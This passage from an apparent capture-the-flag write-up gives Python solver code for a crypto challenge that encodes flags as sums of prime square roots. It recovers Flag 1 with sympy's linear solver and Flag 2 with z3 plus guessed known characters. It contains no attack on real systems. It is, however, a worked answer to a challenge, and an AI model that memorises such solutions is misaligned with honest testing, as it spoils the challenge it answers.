primes=[2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97, 101, 103, 107, 109, 113, 127, 131, 137, 139, 149, 151, 157, 163, 167, 173, 179, 181, 191, 193, 197, 199, 211, 223, 227, 229, 233, 239, 241, 251, 257, 263, 269, 271]

def enc(flag):
    res=[]
    p=primes[:len(flag)]
    for i in range(len(flag)):
        res.append(sum([(Decimal(p[i]).sqrt())*flag[i] for i in range(len(flag))]))
        p=[p[-1]]+p[:-1]
    return res


getcontext().prec=5

flag1_enc =  ['16404', '16416', '16512', '16515', '16557', '16791', '16844', '16394', '15927', '15942', '15896', '15433', '15469', '15553', '15547', '15507', '15615', '15548', '15557', '15677', '15802', '15770', '15914', '15957', '16049', '16163']

flag_sym = [sympy.Symbol('a_' + str(i)) for i in range(len(flag1_enc))]
flag1_sym_enc = enc(flag_sym)

flag_coeff = []
for i in range(len(flag1_enc)):
    flag_coeff.append([flag1_sym_enc[i].coeff(flag_sym[j]) for j in range(len(flag1_enc))])

flag_coeff = sympy.Matrix(flag_coeff)
flag1_enc = sympy.Matrix(flag1_enc)

solved = sympy.linsolve((flag_coeff, flag1_enc), flag_sym)

solved = ''.join([chr(round(i)) for i in solved.args[0] ])
print(solved)
```

### Flag 2

第二问要求解一个28元的线性方程组。
由题目可以得到18个方程，但是我们知道 `flag` 里包含 `flag{}`，也就是说最后只有4个自由变量。
用 z3 爆一会可以看到类似 flag 的单词，这时候把猜测加到限制里，重新求解。
这样最终会得到28个方程，即可解出 flag。

```python
from decimal import *
import string
from z3 import *

FLAG_LEN = 28
# TODO: Change this
KNOWN = 28


primes=[2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97, 101, 103, 107, 109, 113, 127, 131, 137, 139, 149, 151, 157, 163, 167, 173, 179, 181, 191, 193, 197, 199, 211, 223, 227, 229, 233, 239, 241, 251, 257, 263, 269, 271]
def enc(flag):
    res=[]
    p=primes[:len(flag)]
    for i in range(len(flag)):
        res.append(sum([(Decimal(p[i]).sqrt())*flag[i] for i in range(len(flag))]))
        p=[p[-1]]+p[:-1]
    return res


getcontext().prec=15

flag2_enc = ['19106.6119577929', '19098.1846041713', '19124.6925013201', '19072.8591005901', '19063.3797914261', '19254.8741381550', '19410.9493230296', '18896.7331405884', '19021.3167024024', '18924.6509997019', '18853.3351082021', '18957.2296714145', '18926.7035797566', '18831.7182995672', '18768.8192204100', '18668.7452791590', '18645.9207293335', '18711.1447224940']

flag_sym = [Real('a_' + str(i + 1)) for i in range(FLAG_LEN)]
flag2_sym_enc = enc(flag_sym)

s = Solver()
for sym in flag_sym[5:-1]:
    s.add(sym >= 32)
    s.add(sym <= 122)
    s.add(sym != ' ')

def add_known(index: int, value: int):
    s.add(flag_sym[index] == value)

add_known(0, ord('f'))
add_known(1, ord('l'))
add_known(2, ord('a'))
add_known(3, ord('g'))
add_known(4, ord('{'))
# add_known(5, ord('y'))
# add_known(6, ord('0'))
# add_known(7, ord('u'))
# add_known(8, ord('_'))
add_known(FLAG_LEN - 1, ord('}'))

for i in range(min(KNOWN, len(flag2_enc))):
    s.add(simplify(flag2_sym_enc[i]) == flag2_enc[i])

while s.check() == sat:
    m = s.model()
    solved = {}

    for sym in flag_sym:
        r = m[sym]
        solved[str(sym)] = Decimal(r.numerator_as_long())/Decimal(r.denominator_as_long())
        
    flag_str = []
    for k, v in solved.items():
        flag_str += chr(round(v))
    print(flag_str)

    t = []
    s.add(Or(flag_sym[0] != m[flag_sym[0]], flag_sym[1] != m[flag_sym[1]], flag_sym[2] != m[flag_sym[2]], flag_sym[3] != m[flag_sym[3]], flag_sym[4] != m[flag_sym[4]], flag_sym[5] != m[flag_sym[5]], flag_sym[6] != m[flag_sym[6]], flag_sym[7] != m[flag_sym[7]], flag_sym[8] != m[flag_sym[8]], flag_sym[9] != m[flag_sym[9]], flag_sym[10] != m[flag_sym[10]], flag_sym[11] != m[flag_sym[11]], flag_sym[12] != m[flag_sym[12]], flag_sym[13] != m[flag_sym[13]], flag_sym[14] != m[flag_sym[14]], flag_sym[15] != m[flag_sym[15]], flag_sym[16] != m[flag_sym[16]], flag_sym[17] != m[flag_sym[17]], flag_sym[18] != m[flag_sym[18]], flag_sym[19] != m[flag_sym[19]], flag_sym[20] != m[flag_sym[20]], flag_sym[21] != m[flag_sym[21]], flag_sym[22] != m[flag_sym[22]], flag_sym[23] != m[flag_sym[23]], flag_sym[24] != m[flag_sym[24]], flag_sym[25] != m[flag_sym[25]], flag_sym[26] != m[flag_sym[26]], flag_sym[27] != m[flag_sym[27]]))

```